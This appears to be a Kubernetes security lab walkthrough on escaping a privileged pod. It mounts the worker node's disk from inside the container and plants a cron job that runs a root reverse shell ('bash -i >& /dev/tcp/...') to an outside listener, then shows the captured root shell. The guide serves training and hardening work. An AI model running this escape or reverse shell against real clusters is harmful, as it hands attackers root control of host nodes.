 # Privileged Pod

This scenario simulates a pod that was configured as privileged. You can connect to this pod using SSH:

```bash
ssh pwned@10.10.20.2 -p 30025 # Password: pwned
```

Privileged containers have a lot of control over the host they run on. Practically, privileged containers can do almost every action that can be performed directly on the host so scaping to the Kubernetes worker is possible. In order to abuse this, root access to the pod container is needed so the SSH pod provided allows the pwned user to use `sudo`.

How you know that that a container is privileged? Well you could use `amicontained` to see that you have all the capabilities. Also, since the container has access to all the devices attached to the host system you would see a lot of devices under the `/dev` directory instead of just a couple of them:

```bash
wget https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64 -O amicontained
chmod u+x amicontained
./amicontained
```

As said in another scenarios, you can continue reading for a guided exploitation or research for yourself!

## Escape time!

Now you know how dangerous these kind of containers are let's escape from our SSH pod. The approach in this case is to target the host filesystem, remember we have access to all the host's attached devices, disks included!

> [!NOTE]
> By default, seccomp feature is disabled for Kubernetes clusters but hardening guides usually include its activation to limit the system calls a container can use. In this scenario, seccomp is disabled but you may find environments where exploiting privileged containers is not as easy because of this security measure.

A simple `df` command should be enouth to identify our target:
```
ssh-pod-7954b5fbd4-b2hxl:/# df -h
Filesystem                         Size  Used Avail Use% Mounted on
overlay                             62G  7.0G   52G  12% /
tmpfs                               64M     0   64M   0% /dev
shm                                 64M     0   64M   0% /dev/shm
tmpfs                              190M  2.1M  188M   2% /etc/hostname
/dev/mapper/ubuntu--vg-ubuntu--lv   62G  7.0G   52G  12% /etc/hosts
tmpfs                              1.4G   12K  1.4G   1% /run/secrets/kubernetes.io/serviceaccount
```

The interesting one is `/dev/mapper/ubuntu--vg-ubuntu--lv`, that is where the underneth worker node filesystem is. 

Hyper-V uses LVM and that is why it has that weird name. Normally, the device is something like `/dev/sda1` and you can just mount it wherever you want but in this case, since it is a LVM volume, we only have information about the symolic link name that points to the real block file. Look for `/dev/dm-*` files, these represent LVM logical volumes, in this scenario only one will exists so just mount it:

```bash
sudo mkdir /mnt/host_node
sudo mount /dev/dm-0 /mnt/host_node
```

Now you have full access to the node filesystem! From here there are plenty of options to get RCE into the node, in this case a reverse shell will be executed every minute configuring a cron job in `/etc/crontab`:

```
* * * * * root bash -c "bash -i >& /dev/tcp/192.168.*.*/8000 0>&1"
```

Preparing a listener is enough to get a shell to the pod worker node as root:

```
anthares101@WSL:~$ nc -lnvp 8000

Listening on 0.0.0.0 8000
Connection received on 192.168.*.* 56776
bash: cannot set terminal process group (12229): Inappropriate ioctl for device
bash: no job control in this shell
root@aramis:~#
```

## References

- https://kubernetes.io/docs/tasks/configure-pod-container/security-context/
- https://bishopfox.com/blog/kubernetes-pod-privilege-escalation
- https://www.cncf.io/blog/2020/10/16/hack-my-mis-configured-kubernetes-privileged-pods/
